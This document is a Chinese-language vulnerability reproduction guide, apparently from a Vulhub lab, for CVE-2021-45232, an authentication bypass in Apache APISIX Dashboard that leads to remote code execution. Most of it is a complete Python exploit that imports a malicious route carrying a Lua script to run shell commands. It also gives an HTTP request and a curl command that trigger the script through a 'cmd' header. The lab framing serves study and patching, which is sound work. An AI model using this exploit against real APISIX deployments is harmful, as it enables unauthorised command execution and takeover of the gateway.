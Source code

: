 # Apache APISIX Dashboard API权限绕过导致RCE CVE-2021-45232

Apache APISIX是一个动态、实时、高性能API网关，而Apache APISIX Dashboard是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1版本前存在两个API`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`，他们没有经过`droplet`框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。

参考链接：

- https://apisix.apache.org/zh/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## 漏洞环境

Vulhub执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：

```
docker-compose up -d
```

然后访问`http://your-ip:9000/`即可看到Apache APISIX Dashboard的登录页面。

![image-20221011092319611](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210110923738.png)

## 漏洞复现

利用`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本：

![image-20221011092714922](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210110927989.png)

注意的是，这个配置文件的最后4个字符是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如[这个POC](https://github.com/wuppp/cve-2021-45232-exp)。

**apisix_dashboard_rce.py**

```python
#!/usr/bin/env python3
import zlib
import json
import random
import requests
import string
import sys
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)


eval_config = {
    "Counsumers": [],
    "Routes": [
        {
            "id": str(random.randint(100000000000000000, 1000000000000000000)),
            "create_time": 1640674554,
            "update_time": 1640677637,
            "uris": [
                "/rce"
            ],
            "name": "rce",
            "methods": [
                "GET",
                "POST",
                "PUT",
                "DELETE",
                "PATCH",
                "HEAD",
                "OPTIONS",
                "CONNECT",
                "TRACE"
            ],
            "script": "local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)",
            "status": 1
        }
    ],
    "Services": [],
    "SSLs": [],
    "Upstreams": [],
    "Scripts": [],
    "GlobalPlugins": [],
    "PluginConfigs": []
}


def random_str():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=6))


def calc_crc(data):
    crc32 = zlib.crc32(data) & 0xffffffff
    return crc32.to_bytes(4, byteorder="big")


def export_data(url):
    r = requests.get(url + "/apisix/admin/migrate/export", verify=False)
    return r.text[:-4]


def import_data(url, data):
    data = json.dumps(data).encode()
    crc32 = calc_crc(data)

    files = {"file": ("data", data + crc32, "text/data")}
    resp = requests.post(url + "/apisix/admin/migrate/import", files=files, verify=False)
    # print(resp.text)
    if resp.json().get("code", -1) == 0:
        return True
    else:
        return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("python " + sys.argv[0] + " http://127.0.0.1:9000")
        exit()
    
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]

    uri = random_str()
    eval_config["Routes"][0]["uris"] = [ "/" + uri]
    eval_config["Routes"][0]["name"] = uri

    if import_data(url, eval_config):
        print("attack success")
        print("uri is: " + "/" + uri)
    else:
        print("attack error")
```

![image-20221011105801642](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210111058704.png)

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。

在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：

```
GET /LQsRF0 HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0
```

![image-20221011105909716](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210111059770.png)

也可以通过之前的POC实现命令执行：

```
curl http://your-ip:9080/LQsRF0 -H "cmd: id"
```

![image-20221011105809504](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202210111058564.png)

可见，我们在Header中添加的`CMD`头中的命令已被执行。

这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。